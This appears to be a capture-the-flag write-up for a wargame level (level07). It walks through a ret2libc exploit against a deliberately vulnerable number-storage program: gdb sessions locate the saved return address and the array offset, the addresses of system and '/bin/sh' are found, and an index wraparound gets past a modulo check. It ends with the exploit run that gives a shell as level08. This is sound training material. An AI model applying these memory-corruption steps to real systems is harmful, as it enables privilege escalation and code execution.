 # level07

## Step 1: Understand the program
1. The program allows to store numbers in an array of unsigned int.
2. The array have no end
3. We can store numbers at any index expect if:
    - index is divisible by `3`
    - High byte of the number is `0xb7`
        ```c
        if ( index == 3 * (index / 3) || HIBYTE(unum) == 183 ) // ((unum) >> 8) & 0xFF) == 0xB7
        ```

## Goal
Since we can store any value at "any" position, the goal is to overwrite the `saved eip` of main function with a [__Ret2libc__ __attack__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

## Step 2: find where is saved eip
```bash
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd6f0:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd6e8, args:
 Locals at 0xffffd6e8, Previous frame's sp is 0xffffd6f0
 Saved registers:
  ebp at 0xffffd6e8, eip at 0xffffd6ec
(gdb)
```

saved `eip` is at `0xffffd6ec`


## Step 3: Find the offset between the array and the saved eip

Store the random number `19951999` at `array[1]`

Find the value through the stack

```bash
(gdb) b *store_number+160
(gdb) r
(gdb) x/20d $esp
[...]
0xffffd4d0:	134515421	-10972	0	-136137024
0xffffd4e0:	-10520	-134280624	19951999	1
0xffffd4f0:	0	-8228	-10520	134514927
[...]
```
```bash
(gdb) x/d 0xffffd528
0xffffd528:	19951999
```
__The array is at `0xffffd524`__. We subtract 4 because it is on array of unsigned int (4 bytes long).

```bash
(gdb) p (0xffffd6ec - 0xffffd524)
$1 = 456
(gdb) p (0xffffd6ec - 0xffffd524) / 4
$2 = 114
(gdb)
```

__Offset == 114__  (114 step of 4 bytes)


## Step 4: Find the address of system functions
```bash
(gdb) p system
$3 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

__0xf7e6aed0 = 4159090384__

```bash
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
```
__0xf7f897ec = 4160264172__


https://stackoverflow.com/questions/19124095/return-to-lib-c-buffer-overflow-exercise-issue

## Exploit

Given that the index can't be divisible by 3. we can't require index 114. To store value at this position we overflap `unsigned int max`.


- $UINTMAX = 2^{32} - 1$  

- $\frac{2^{32}}{4} + 114 = 1073741938$




At last, quit to pass by through the return of `main`.

```console
$ /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```